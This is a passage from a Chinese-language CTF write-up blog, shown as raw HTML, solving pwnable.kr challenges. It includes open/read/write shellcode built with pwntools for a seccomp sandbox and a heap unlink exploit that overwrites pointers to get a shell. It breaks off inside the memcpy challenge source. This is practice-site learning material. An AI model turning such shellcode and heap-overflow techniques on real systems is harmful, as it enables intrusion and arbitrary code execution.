class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;sys/mman.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;seccomp.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;sys/prctl.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;fcntl.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;unistd.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="meta">#<span class="meta-keyword">define</span> LENGTH 128</span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">sandbox</span><span class="params">()</span></span>&#123;</span><br><span class="line">	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);</span><br><span class="line">	<span class="keyword">if</span> (ctx == <span class="literal">NULL</span>) &#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"seccomp error\n"</span>);</span><br><span class="line">		<span class="built_in">exit</span>(<span class="number">0</span>);</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">    <span class="comment">//用seccomp_rule_add指定只能使用下面几个规则</span></span><br><span class="line">	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), <span class="number">0</span>);</span><br><span class="line">	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), <span class="number">0</span>);</span><br><span class="line">	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), <span class="number">0</span>);</span><br><span class="line">	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(<span class="built_in">exit</span>), <span class="number">0</span>);</span><br><span class="line">	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), <span class="number">0</span>);</span><br><span class="line"></span><br><span class="line">	<span class="keyword">if</span> (seccomp_load(ctx) &lt; <span class="number">0</span>)&#123;   <span class="comment">//当使用了除上面以外的函数时，显示错误</span></span><br><span class="line">		seccomp_release(ctx);</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"seccomp error\n"</span>);</span><br><span class="line">		<span class="built_in">exit</span>(<span class="number">0</span>);</span><br><span class="line">	&#125;</span><br><span class="line">	seccomp_release(ctx);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">char</span> stub[] = <span class="string">"\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"</span>;</span><br><span class="line"><span class="keyword">unsigned</span> <span class="keyword">char</span> filter[<span class="number">256</span>];</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[])</span></span>&#123;</span><br><span class="line"></span><br><span class="line">	setvbuf(<span class="built_in">stdout</span>, <span class="number">0</span>, _IONBF, <span class="number">0</span>);</span><br><span class="line">	setvbuf(<span class="built_in">stdin</span>, <span class="number">0</span>, _IOLBF, <span class="number">0</span>);</span><br><span class="line"></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Welcome to shellcoding practice challenge.\n"</span>);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n"</span>);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n"</span>);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"If this does not challenge you. you should play 'asg' challenge :)\n"</span>);</span><br><span class="line"></span><br><span class="line">	<span class="keyword">char</span>* sh = (<span class="keyword">char</span>*)mmap(<span class="number">0x41414000</span>, <span class="number">0x1000</span>, <span class="number">7</span>, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, <span class="number">0</span>, <span class="number">0</span>);</span><br><span class="line">	<span class="built_in">memset</span>(sh, <span class="number">0x90</span>, <span class="number">0x1000</span>);</span><br><span class="line">	<span class="built_in">memcpy</span>(sh, stub, <span class="built_in">strlen</span>(stub));</span><br><span class="line">	</span><br><span class="line">	<span class="keyword">int</span> offset = <span class="keyword">sizeof</span>(stub);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"give me your x64 shellcode: "</span>);</span><br><span class="line">	read(<span class="number">0</span>, sh+offset, <span class="number">1000</span>);</span><br><span class="line"></span><br><span class="line">	alarm(<span class="number">10</span>);</span><br><span class="line">	chroot(<span class="string">"/home/asm_pwn"</span>);	<span class="comment">// you are in chroot jail. so you can't use symlink in /tmp</span></span><br><span class="line">	sandbox();</span><br><span class="line">	((<span class="keyword">void</span> (*)(<span class="keyword">void</span>))sh)();</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>程序要求我们用open()/read()/write()这几个系统函数来写shellcode。<br><br>可以用pwntools带的shellcraft，exp如下：<br><figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/python</span></span><br><span class="line"><span class="comment">#-*- coding:utf-8 -×-</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span> *</span><br><span class="line"></span><br><span class="line">p = ssh(user=<span class="string">'asm'</span>, host=<span class="string">'pwnable.kr'</span>, port=<span class="number">2222</span>, password=<span class="string">'guest'</span>)</span><br><span class="line">sh = p.remote(host=<span class="string">'0'</span>, port=<span class="number">9026</span>)</span><br><span class="line"></span><br><span class="line">context(arch=<span class="string">'amd64'</span>, os=<span class="string">'linux'</span>, log_level=<span class="string">'debug'</span>)</span><br><span class="line"></span><br><span class="line">shellcode = <span class="string">''</span></span><br><span class="line">shellcode += shellcraft.pushstr(<span class="string">'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'</span>)</span><br><span class="line">shellcode += shellcraft.open(<span class="string">'rsp'</span>, <span class="number">0</span>, <span class="number">0</span>)       <span class="comment">#将字符串存在rsp上，用open读取文件</span></span><br><span class="line">shellcode += shellcraft.read(<span class="string">'rax'</span>, <span class="string">'rsp'</span>, <span class="number">100</span>) <span class="comment">#读取100个字节到缓冲区中</span></span><br><span class="line">shellcode += shellcraft.write(<span class="number">1</span>, <span class="string">'rsp'</span>, <span class="number">100</span>)    <span class="comment">#将缓冲区的内容输出</span></span><br><span class="line"></span><br><span class="line">sh.recvuntil(<span class="string">'shellcode:'</span>)</span><br><span class="line"><span class="keyword">print</span> (shellcode+<span class="string">'\n'</span>)</span><br><span class="line">sh.send(asm(shellcode))</span><br><span class="line">log.success(sh.recvline())</span><br></pre></td></tr></table></figure></p>
<p>dubug获得的汇编代码：<br><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br></pre></td><td class="code"><pre><span class="line">.section .shellcode,<span class="string">"awx"</span></span><br><span class="line">    .global _start</span><br><span class="line">    .global __start</span><br><span class="line">    _start:</span><br><span class="line">    __start:</span><br><span class="line">    .intel_syntax noprefix</span><br><span class="line">        /* push <span class="string">'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00'</span> */</span><br><span class="line">        mov rax, 0x101010101010101</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x101010101010101 ^ 0x676e6f306f306f</span><br><span class="line">        xor [rsp], rax</span><br><span class="line">        mov rax, 0x306f306f306f306f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x3030303030303030</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x303030306f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f3030303030</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x3030303030303030</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x3030303030303030</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x303030306f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6f6f6f6f6f6f6f6f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6c5f797265765f73</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x695f656d616e5f65</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x6c69665f6568745f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x7972726f732e656c</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x69665f736968745f</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x646165725f657361</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x656c705f656c6966</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x5f67616c665f726b</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x2e656c62616e7770</span><br><span class="line">        push rax</span><br><span class="line">        mov rax, 0x5f73695f73696874</span><br><span class="line">        push rax</span><br><span class="line">        /* open(file=<span class="string">'rsp'</span>, oflag=0, mode=0) */</span><br><span class="line">        mov rdi, rsp</span><br><span class="line">        xor edx, edx /* 0 */</span><br><span class="line">        xor esi, esi /* 0 */</span><br><span class="line">        /* call open() */</span><br><span class="line">        push 2 /* 2 */</span><br><span class="line">        pop rax</span><br><span class="line">        syscall</span><br><span class="line">        /* call <span class="built_in">read</span>(<span class="string">'rax'</span>, <span class="string">'rsp'</span>, 100) */</span><br><span class="line">        mov rdi, rax</span><br><span class="line">        xor eax, eax /* SYS_read */</span><br><span class="line">        push 0x64</span><br><span class="line">        pop rdx</span><br><span class="line">        mov rsi, rsp</span><br><span class="line">        syscall</span><br><span class="line">        /* write(fd=1, buf=<span class="string">'rsp'</span>, n=100) */</span><br><span class="line">        push 1</span><br><span class="line">        pop rdi</span><br><span class="line">        push 0x64</span><br><span class="line">        pop rdx</span><br><span class="line">        mov rsi, rsp</span><br><span class="line">        /* call write() */</span><br><span class="line">        push 1 /* 1 */</span><br><span class="line">        pop rax</span><br><span class="line">        syscall</span><br></pre></td></tr></table></figure></p>
<p>简化一下也是可以写汇编拿shellcode的。<br></p>
<h2 id="unlink"><a href="#unlink" class="headerlink" title="unlink"></a>unlink</h2><p>这题涉及到堆溢出orz…之前对堆溢出没有多深的了解，在做题前先去看了这篇博客：<a href="http://blog.csdn.net/qq_29343201/article/details/53558216" target="_blank" rel="noopener">http://blog.csdn.net/qq_29343201/article/details/53558216</a><br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="keyword">typedef</span> <span class="class"><span class="keyword">struct</span> <span class="title">tagOBJ</span>&#123;</span></span><br><span class="line">	<span class="class"><span class="keyword">struct</span> <span class="title">tagOBJ</span>* <span class="title">fd</span>;</span></span><br><span class="line">	<span class="class"><span class="keyword">struct</span> <span class="title">tagOBJ</span>* <span class="title">bk</span>;</span></span><br><span class="line">	<span class="keyword">char</span> buf[<span class="number">8</span>];</span><br><span class="line">&#125;OBJ;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">shell</span><span class="params">()</span></span>&#123;</span><br><span class="line">	system(<span class="string">"/bin/sh"</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">unlink</span><span class="params">(OBJ* P)</span></span>&#123;</span><br><span class="line">	OBJ* BK;</span><br><span class="line">	OBJ* FD;</span><br><span class="line">	BK=P-&gt;bk;</span><br><span class="line">	FD=P-&gt;fd;</span><br><span class="line">	FD-&gt;bk=BK;</span><br><span class="line">	BK-&gt;fd=FD;</span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[])</span></span>&#123;</span><br><span class="line">	<span class="built_in">malloc</span>(<span class="number">1024</span>);</span><br><span class="line">	OBJ* A = (OBJ*)<span class="built_in">malloc</span>(<span class="keyword">sizeof</span>(OBJ));</span><br><span class="line">	OBJ* B = (OBJ*)<span class="built_in">malloc</span>(<span class="keyword">sizeof</span>(OBJ));</span><br><span class="line">	OBJ* C = (OBJ*)<span class="built_in">malloc</span>(<span class="keyword">sizeof</span>(OBJ));</span><br><span class="line"></span><br><span class="line">	<span class="comment">// double linked list: A &lt;-&gt; B &lt;-&gt; C</span></span><br><span class="line">	A-&gt;fd = B;</span><br><span class="line">	B-&gt;bk = A;</span><br><span class="line">	B-&gt;fd = C;</span><br><span class="line">	C-&gt;bk = B;</span><br><span class="line"></span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"here is stack address leak: %p\n"</span>, &amp;A);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"here is heap address leak: %p\n"</span>, A);</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"now that you have leaks, get shell!\n"</span>);</span><br><span class="line">	<span class="comment">// heap overflow!</span></span><br><span class="line">	gets(A-&gt;buf);</span><br><span class="line"></span><br><span class="line">	<span class="comment">// exploit this unlink!</span></span><br><span class="line">	unlink(B);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p>由于使用了gets()函数，导致了堆溢出。可以通过这个来改写ABC在堆中的内容。<br>重点来看这四个指令：<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">BK=B-&gt;bk;</span><br><span class="line">FD=B-&gt;fd;</span><br><span class="line">FD-&gt;bk=BK;</span><br><span class="line">BK-&gt;fd=FD;</span><br></pre></td></tr></table></figure></p>
<p>化简一下就是：<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">(B-&gt;fd)-&gt;bk = B-&gt;bk  <span class="comment">//FD-&gt;bk = B-&gt;bk</span></span><br><span class="line">(B-&gt;bk)-&gt;fd = B-&gt;fd  <span class="comment">//BK-&gt;fd = B-&gt;fd</span></span><br></pre></td></tr></table></figure></p>
<p>实际上我们只要利用这个来重写B在堆中的fd和bk，就能实现任意内存写入了。</p>
<p>在下面这段汇编中可以找到ABC的地址：<br></p>
<p>从下面这一段我们可以看出，只要将栈上的值传给返回地址，修改esp的内容为shell的地址就行了。<br><br>将ebp-0x4的地址传给了esp，将ebp-0x4的值存在了ecx中。我们要修改的就是ebp-0x4，而将shell的地址写入A中后，它们之间的偏移就是0x10.所以是stack_addr + 0x10;<br><br>而shell的地址是heap的地址加8，又有ecx-4赋给了esp，所以还要加8，heap_addr + 12.（还要再减4<br></p>
<p>这个exp写得感觉自己是个智障orz…</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span>*</span><br><span class="line">context(log_level=<span class="string">'debug'</span>)</span><br><span class="line"></span><br><span class="line"><span class="comment">#sh = process('./unlink')</span></span><br><span class="line">p = ssh(host=<span class="string">'pwnable.kr'</span>, port=<span class="number">2222</span>, user=<span class="string">'unlink'</span>, password=<span class="string">'guest'</span>)</span><br><span class="line">sh = p.process(<span class="string">"./unlink"</span>)</span><br><span class="line"></span><br><span class="line">sh.recvuntil(<span class="string">"here is stack address leak: "</span>)</span><br><span class="line">stack_addr = sh.recv(<span class="number">10</span>)</span><br><span class="line"><span class="comment">#a = sh.readline().strip()</span></span><br><span class="line">stack_addr = int(stack_addr, <span class="number">16</span>)</span><br><span class="line"></span><br><span class="line">sh.recvuntil(<span class="string">"here is heap address leak: "</span>)</span><br><span class="line">heap_addr = sh.recv(<span class="number">9</span>)</span><br><span class="line"><span class="comment">#b = sh.readline().strip()</span></span><br><span class="line">heap_addr = int(heap_addr, <span class="number">16</span>)</span><br><span class="line"></span><br><span class="line">shell_addr = <span class="number">0x080484eb</span></span><br><span class="line"></span><br><span class="line">junk = <span class="string">'a'</span> * <span class="number">12</span></span><br><span class="line">payload = p32(shell_addr) + junk + p32(heap_addr + <span class="number">12</span>) + p32(stack_addr + <span class="number">0x10</span>)</span><br><span class="line"></span><br><span class="line">sh.send(payload)</span><br><span class="line">sh.interactive()</span><br></pre></td></tr></table></figure>
<p>下面是官方爸爸的exp…orz<br></p>
<h2 id="memcpy"><a href="#memcpy" class="headerlink" title="memcpy"></a>memcpy</h2><p>分析一下源码，题目要求是使程序成功运行起来。关键点在fast_memcpy上，注意movntps指令，要求必须对齐16字节。<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// compiled with : gcc -o memcpy memcpy.c -m32 -lm</span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;signal.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;unistd.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;sys/mman.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;math.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">unsigned</span> <span class="keyword">long</span> <span class="keyword">long</span> <span class="title">rdtsc</span><span class="params">()</span></span>&#123;</span><br><span class="line">        <span class="keyword">asm</span>(<span class="string">"rdtsc"</span>);    <span class="comment">//读取时间标签计数器</span></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">char</span>* <span class="title">slow_memcpy</span><span class="params">(<span class="keyword">char</span>* dest, <span class="keyword">const</span> <span class="keyword">char</span>* src, <span class="keyword">size_t</span> len)</span></span>&#123;  <span class="comment">//逐字替换</span></span><br><span class="line">        <span class="keyword">int</span> i;</span><br><span class="line">        <span class="keyword">for</span> (i=<span class="number">0</span>; i&lt;len; i++) &#123;</span><br><span class="line">                dest[i] = src[i];</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">return</span> dest;</span><br><span class="line">&#125;</span><br><span 